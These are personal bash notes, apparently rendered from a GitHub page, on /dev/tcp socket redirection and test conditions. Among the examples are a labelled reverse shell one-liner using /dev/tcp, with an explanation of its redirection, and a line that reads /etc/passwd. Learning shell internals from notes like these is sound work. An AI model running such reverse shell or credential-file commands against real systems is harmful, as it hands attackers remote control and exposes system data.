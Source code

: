 ```shell
exec 3<>/dev/tcp/google.com/80
echo -en 'GET / HTTP/1.1\r\nHost: google.com\r\n\r\n' >&3
cat <&3 # the socket is at /dev/fd/3
file /dev/fd/3 # /dev/fd/3: broken symbolic link to socket:[440833]
exec 3<&- # close file descriptor
file /dev/fd/3 # /dev/fd/3: cannot open `/dev/fd/3' (No such file or directory)

# Reverse shell
bash -i >& /dev/tcp/127.0.0.1/11111 0>&1

# nc
bash -c 'exec 87<>/dev/tcp/example.com/80; cat <&87 & cat >&87' <<EOF
GET / HTTP/1.1
Host: example.com

EOF
```

> Explained: This is a redirection. No pipe is involved. 0<&1 means connect whatever is currently opened on file descriptor 1 to file descriptor 0. Since the previous redirection >& /dev/tcp/HOST/PORT connected fd 1 (the default for an output redirection) to /dev/tcp/HOST/PORT, i.e. opened a TCP socket, this duplicates the TCP connection to file descriptor 0 (i.e. the same socket is now also open on fd 0, this is different from 0</dev/tcp/HOST/PORT which would open a different socket to the same server).

## Conditions

```shell
true; echo $? # 0
false; echo $? # 1
[ -f /etc/passwd ] && cat /etc/passwd
( true && false ); echo $? # 1
[ -f / ]; echo $? # 1
[ -d / ]; echo $? # 0
# -n (not empty string), -z (null string), -a, -o, -eq, -ne, -gt, -lt, -ge, -le
# -ef (identical file), -nt (newer then), -ot (older then)
# -b (is block), -d, -e (exists), -f, -L (symlink), -s (file not empty), -x (executable)

# [[ is a syntactical feature, [ is an executable
which [ # /usr/bin/[

# [[ allows && and ||
[[ -f / && -d / ]]; echo $? # 1
[[ -f / || -d / ]]; echo $? # 0
[[ -f / && ( -f / || -d / ) ]]; echo $? # F and (F or T) => F (1)
[[ -f / || ( -f / || -d / ) ]]; echo $? # F or (F or T) => T (0)
[[ -f / || ( -f / && -d / ) ]]; echo $? # F or (F and T) => F (1)

# [[ handles string
s='fuck you'
[ $s = 'fuck you' ]; echo $? # 2 (bash: [: too many arguments)
[[ $s = 'fuck you' ]]; echo $? # 0

# [[ uses better matching
s=fuck
[[ $s = f* ]]; echo $? # 0
[[ $s = a* ]]; echo $? # 1
[[ $s =~ ^f..k$ ]]; echo $? # 0
[[ $s =~ ^a..k$ ]]; echo $? # 1
```
